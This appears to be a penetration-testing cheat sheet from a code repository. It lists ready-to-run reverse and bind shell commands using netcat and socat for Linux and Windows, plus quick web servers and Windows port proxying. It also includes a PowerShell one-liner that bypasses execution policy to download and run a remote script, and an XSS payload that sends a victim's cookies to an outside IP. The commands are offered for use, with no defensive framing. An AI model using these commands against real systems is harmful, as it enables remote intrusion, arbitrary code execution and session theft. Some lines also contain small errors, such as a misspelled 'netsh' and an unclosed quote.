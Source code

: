 # tools

## Reverse Shells
Recipes for reverse shells from A to target B:

### Netcat
A: `nc -nlvp 4444`  
B (Linux): `nc -nv $A_IP $PORT -e /bin/bash`  
B (Windows): `nc -nv $A_IP $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat -d -d TCP4-LISTEN:$PORT STDOUT`  
B (Linux): `socat TCP4:$A_IP:$PORT EXEC:/bin/bash`  
B (Windows): `socat TCP4:$A_IP:4433 EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat -d -d OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork STDOUT`  
B (Linux): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:/bin/bash`  
B (Windows): `socat OPENSSL:$A_IP:$PORT,verify=0 EXEC:'cmd.exe',pipes`  

## Bind Shells
Recipes for bind shells from A to target B:  

### Netcat
A: `nc -nv $B_IP $PORT`  
B (Linux): `nc -nlvp $PORT -e /bin/bash`  
B (Windows): `nc -nlvp $PORT -e cmd.exe`  

### Socat
#### Unencrypted
A: `socat - TCP4:$B_IP:$PORT`  
B (Linux): `socat -d -d TCP4-LISTEN:$PORT EXEC:/bin/bash`  
B (Windows): `socat -d -d TCP4-LISTEN:$PORT EXEC:'cmd.exe',pipes`  

#### Encrypted
This requires you to create a self-signed SSL certificate.  

A: `socat - OPENSSL:$B_IP:$PORT,verify=0 STDOUT`  
B machine (Linux): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:/bin/bash`  
B machine (Windows): `socat OPENSSL-LISTEN:$PORT,cert=cert.pem,verify=0,fork EXEC:'cmd.exe',pipes`  

## Self-Signed SSL Certificate
`openssl req -newkey rsa:2048 -nodes -keyout cert.key -x509 -days 10 -out cert.crt && cat cert.key cert.crt > cert.pem`  

## Web Servers

### Python
2: `python -m SimpleHTTPServer $PORT`  
3: `python -m http.server $PORT`  

### PHP
`php -S 0.0.0.0:$PORT`

### Ruby
`ruby -run -e httpd . -p $PORT`

### Busybox
`busybox httpd -f -p $PORT`

## Proxy Traffic

### Windows
Forward traffic from SOURCE_PORT on SOURCE_ADDRESS to TARGET_PORT on TARGET_ADDRESS.
`netsch interface portproxy add v4tov4 listenport=$SOURCE_PORT listenaddress=$SOURCE_ADDRESS connectaddress=$TARGET_ADDRESS connectport=$TARGET_PORT`

## Misc
### Run powershell script from remote web server
`powershell.exe -exec Bypass -noexit -C "IEX (New-Object Net.WebClient).DownloadString('http://web-server-ip/script.ps1')`

### Get Public IP
To get your public IP address on Linux run `dig +short myip.opendns.com @resolver1.opendns.com`  

### Steal Cookies
`<script>new Image().src="http://IP/random.jpg?output="+document.cookie;</script>`

